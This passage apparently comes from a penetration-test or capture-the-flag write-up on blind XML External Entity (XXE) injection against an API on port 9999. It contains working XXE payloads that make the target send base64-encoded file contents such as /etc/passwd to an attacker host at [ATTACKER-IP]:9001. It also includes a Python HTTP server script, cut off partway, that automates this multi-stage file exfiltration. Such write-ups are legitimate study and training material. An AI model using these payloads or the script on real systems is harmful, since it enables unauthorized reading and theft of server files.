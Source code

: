 
### 3. XML External Entity (XXE) Injection (Blind)
- **Technique**: Blind XXE via API endpoint on port 9999
- **Details**:
  - Targeted the API endpoint on port 9999 (`http://[TARGET-IP]:9999`), which responded differently to XML input compared to plain text or JSON.
  - Tested for XXE by sending an XML payload to trigger an HTTP request to the attacker's server ([ATTACKER-IP]:9001):
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://[ATTACKER-IP]:9001/please_subscribe"> ]>
    <foo>&xxe;</foo>
    ```
  - Confirmed XXE vulnerability when the target server made a request to the attacker's server, proving blind out-of-band interaction.
  - Used a transform file (`transform.xml`) to read files from the server:
    ```xml
    <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % param1 "<!ENTITY xxe SYSTEM 'http://[ATTACKER-IP]:9001/stage2.xml?%data;'>">
    ```
  - Received base64-encoded file contents (e.g., `/etc/passwd`) via HTTP requests to the attacker's server, decoded using `base64 -d`.

---

### 4. Automating XXE Exploitation
- **Technique**: Python HTTP server for dynamic XXE file retrieval
- **Details**:
  - Created a Python script (`xxe.py`) to automate file retrieval via XXE:
    - Listened on port 9001 to handle requests from the target server.
    - Handled two stages:
      - **Stage 1**: Served a transform file (`stage1.xml`) to initiate file read requests.
      - **Stage 2**: Received and decoded base64-encoded file contents from the server.
    - Script logic:
      ```python
      from http.server import BaseHTTPRequestHandler, HTTPServer
      from base64 import b64decode

      class HTTPRequestHandler(BaseHTTPRequestHandler):
          def do_GET(self):
              stage, data = self.path.split('?')
              if stage == '/stage1.xml':
                  message = """<?xml version="1.0" encoding="UTF-8"?>
                  <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource={}">
                  <!ENTITY % param1 "<!ENTITY xxe SYSTEM 'http://[ATTACKER-IP]:9001/stage2.xml?%data;'>">
                  """.format(data)
              elif stage == '/stage2.xml':
                  message = b64decode(data).decode('utf-8')
                  print(message)
              else:
                  message = "send me shells"
              self.send_response(200)
              self.end_headers()
              self.wfile.write(bytes(message, 'utf-8'))

